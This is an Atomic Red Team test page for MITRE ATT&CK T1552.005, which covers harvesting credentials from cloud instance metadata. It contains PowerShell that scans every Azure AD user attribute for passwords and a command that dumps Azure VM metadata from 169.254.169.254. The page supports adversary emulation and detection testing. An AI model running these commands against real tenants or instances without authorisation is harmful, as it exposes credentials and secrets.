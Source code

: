 # T1552.005 - Unsecured Credentials: Cloud Instance Metadata API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/005)
<blockquote>Adversaries may attempt to access the Cloud Instance Metadata API to collect credentials and other sensitive data.

Most cloud service providers support a Cloud Instance Metadata API which is a service provided to running virtual instances that allows applications to access information about the running virtual instance. Available information generally includes name, security group, and additional metadata including sensitive data such as credentials and UserData scripts that may contain additional secrets. The Instance Metadata API is provided as a convenience to assist in managing applications and is accessible by anyone who can access the instance.(Citation: AWS Instance Metadata API) A cloud metadata API has been used in at least one high profile compromise.(Citation: Krebs Capital One August 2019)

If adversaries have a presence on the running virtual instance, they may query the Instance Metadata API directly to identify credentials that grant access to additional resources. Additionally, adversaries may exploit a Server-Side Request Forgery (SSRF) vulnerability in a public facing web proxy that allows them to gain access to the sensitive information via a request to the Instance Metadata API.(Citation: RedLock Instance Metadata API 2018)

The de facto standard across cloud service providers is to host the Instance Metadata API at <code>http[:]//169.254.169.254</code>.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords](#atomic-test-1---azure---search-azure-ad-user-attributes-for-passwords)

- [Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines](#atomic-test-2---azure---dump-azure-instance-metadata-from-virtual-machines)


<br/>

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords
This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials. 
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found. 
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad


**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; 
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
install-module MSOnline
```




<br/>
<br/>

## Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines
This test invokes a web request to the default Instance Metadata API of 169.254.169.254 in order to dump the data contained within it to a file. 
See: https://www.sans.org/blog/cloud-instance-metadata-services-imds-/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** cc99e772-4e18-4f1f-b422-c5cdd1bfd7b7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to output metadata to | string | $env:temp&#92;T1552.005Test2.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | ConvertTo-Json -Depth 64 > #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```





<br/>
